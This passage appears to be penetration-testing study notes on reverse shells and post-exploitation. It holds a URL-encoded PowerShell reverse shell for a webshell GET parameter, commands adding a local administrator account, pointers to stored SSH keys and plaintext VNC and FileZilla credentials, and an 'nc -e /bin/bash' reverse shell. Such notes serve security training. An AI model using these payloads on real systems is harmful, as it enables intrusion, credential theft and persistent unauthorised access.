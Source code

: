 powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27\<IP>%27%2C\<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

* Same shell encountered above in the "Common Shell Payloads" section.
  * Has been URL encoded to be used safely in a GET parameter.
  * IP and Port will still need to be changed.

### **Next Steps** <a href="#id-7ntdp9ele5q7" id="id-7ntdp9ele5q7"></a>

* Shells tend to be unstable and non-interactive.
* Look for opportunities to gain access to a user account on Linux.
  * SSH keys stored at /home/\<user>/.ssh are often an ideal way to do this.
  * Some exploits will also allow addition of a new account.
  * [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give SSH access to the machine.
* Options are more limited on Windows.
  * Sometimes possible to find passwords for running services in the registry.
    * VNC servers frequently leave passwords in the registry stored in plaintext.
  * Some versions of the FileZilla FTP server also leave credentials in an XML file at C:\Program Files\FileZilla Server\FileZilla Server.xml or C:\xampp\FileZilla Server\FileZilla Server.xml.
    * These can be MD5 hashes or in plaintext depending on the version.
  * Ideally want to obtain a shell running as the SYSTEM user or an administrator account running with high privileges.
    * Possible to add an account (in the administrators group) to the machine.

net user \<username> \<password> /add

net localgroup administrators \<username> /add

\* Log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods dependent on the services running on the box.

### **Important takeaway** <a href="#id-5ri2etpumaip" id="id-5ri2etpumaip"></a>

* Reverse and Bind shells are essential techniques for gaining remote code execution on a target host.
* They will never be as fully featured as a native shell.
* Always try to escalate into using a 'normal' method for accessing the machine as this will invariably be easier to use for further exploitation of the target.

### **Practice and Examples** <a href="#qpsn1trdc9hr" id="qpsn1trdc9hr"></a>

Try uploading a webshell to the Linux box, then use the command: nc \<LOCAL-IP> \<PORT> -e /bin/bash to send a reverse shell back to a waiting listener on the attaching machine.
